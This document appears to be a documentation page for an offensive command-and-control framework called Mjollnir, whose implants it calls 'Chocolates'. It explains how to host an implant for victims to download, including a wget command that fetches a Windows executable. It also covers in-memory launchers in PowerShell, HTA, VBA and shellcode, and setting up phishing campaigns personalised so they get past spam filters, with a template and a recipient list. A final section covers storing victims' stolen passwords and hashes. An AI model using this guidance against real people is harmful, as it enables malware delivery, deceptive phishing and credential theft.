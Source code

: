 # Some more advanced Mjollnir's features

[< Index](index.md)

[> Interact with your Chocolate](chocolate-interaction.md)


So far, you know how to start a listener and how to build and interact with a Chocolate. Let's see some advanced features about **Mjollnir c2**.

## Different kind of tasks

Experimenting with your first Chocolate, you accessed it by clicking on the **Dashboard** tab. However there is a better way to do that. Click on the **Tasks** tab like the following:

![](images/advanced-features/tasks.png)

You will see 4 new tabs:
* **Tasks**: allows you to see all your active Chocolates and interact with them the way you did by clicking on the **Dashboard** tab
* **Bulk task**: allows you to select a **group** of Chocolates and order them to execute a specific task
* **Batch task**: allows you to select one Chocolate and order it to execute tasks after tasks automatically
* **On registering task**: allows you to execute several tasks as soon as a Chocolate registers

Those four tabs are very usefull, and I am sure you already know when you could use them.

## Make your Chocolate downloadable

When you create a Chocolate, you may want it to be downloaded by the victim. Hopefully, this is easily feasible!

Once built, your agent will be available on the **Up/download** tab as the following:

![](images/advanced-features/updownload.png)

And thus you can access it easily. But in order to do that, you will have to set a **File server** first.

To start a **File server** you have to go to the **Listeners** tab and select **File server**, and specify the **Bind address** and **Bind port**.

![](images/advanced-features/file_server.png)

Then you should be able to download your Chocolate or some others file like:
```
wget http://IP:PORT/files/chocolate_win_http.exe
```

## Use a Launcher

So, ok it is nice to make your Chocolate downloadable, but sometimes you don't want to drop on the victim's disk your Chocolate. In that case, you would like to use **powershell**, **vba**, a **shellcode** and so on that will download your Chocolate and executes it in memory.

You can do that into Mjollnir. Select the **Launchers** tab like the following:

![](images/advanced-features/launchers.png)

You have to specify the type of the launcher you would like to use:
* powershell
* hta
* vba
* shellcode
* pe

You can use the one you want or implement one that is not listed instead.

The **launcher name** is the name of the launcher that will be available into the **Up/download** tab. So you must start a **File server** first.

By the way, you have to specify the **file server ip** and the **file server port**.

And obviously you have to indicate the name of the Chocolate that will be downloaded. The Chocolate has to be available on the **Up/download** tab.

## Did you say Phishing?

Well, you know how to create your **launcher** that will download your **Chocolate** and executes it in memory. But how to make the victim download and execute your launcher?

There is a **Phishing** tab. Let's see it:

![](images/advanced-features/phishing.png)

You can define the **campaign's name**, the **SMTP server** you want to use, as well as the **SMTP port**. 

You can define the **source email** / **source email password** that will send the phishing emails. The **display name** is the name that will appears into the victim's email box. 

You have to create an **email template** in HTTP format. You could add one attachement if needed.

The important point is the **Emails list**. The email list has a **?** next to it because it needs some explanations.

If you send, let's say, 2000 identical emails to a company, there are good chances that there will be tagged as phishing emails (well they are). But if each email is sligtly different from one to an other, perhaps user personalized, those emails will certainly not be tagged as phishing.

Knowing that, you have to create your template carefully included some \{\{TAG\}\} into it. Those \{\{TAG\}\} will also be into the **Emails lists**.

Here is an example of **template**:
```
<html>
    <body>
        Hello \{\{USERNAME\}\}, thank you for registering with the email: \{\{EMAIL\}\} at the date \{\{DATE\}\}

        Please submit that \{\{CODE\}\} to the application in order to validate your authentication.
    </body>
</html>
```

And here an example of **Emails list**:
```
EMAIL,USERNAME,DATE,CODE
thor@mjollnir.fr,Thor God of Thunder,01/01/1900,12345
freyja@mjollnir.fr,Freyja,02/02/1900,54321
odin@mjollnir.fr,Odin,03/03/1900,09876
```

Your phishing campaign is then availabe on the **Dashboard** tab:

![](images/advanced-features/phishing_list.png)

You can click the corresponding raw, and update your campaign before submitting it !

![](images/advanced-features/phishing_update.png)

## Save your loots

Now that you know how to propagate your Chocolate, and you probably know how to get some importants informations such as **password** and **hash** of the victim machine, you may want to save them.

There is a **Loots** tab specially crafted for that:

![](images/advanced-features/loots.png)

[< Index](index.md)

[> Interact with your Chocolate](chocolate-interaction.md)